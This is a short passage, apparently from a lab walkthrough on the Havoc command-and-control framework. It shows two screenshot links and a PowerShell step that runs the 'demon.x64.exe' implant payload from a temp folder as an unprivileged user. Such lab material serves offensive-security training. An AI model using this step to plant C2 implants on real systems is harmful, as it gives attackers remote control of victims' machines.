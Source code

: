 ![Screenshot](./images/havoc_clistudent.jpg)

Now from this new command prompt running as unprivileged user, execute the payload:

```powershell
cd \temp
demon.x64.exe
```

![Screenshot](./images/havoc_demon.jpg)
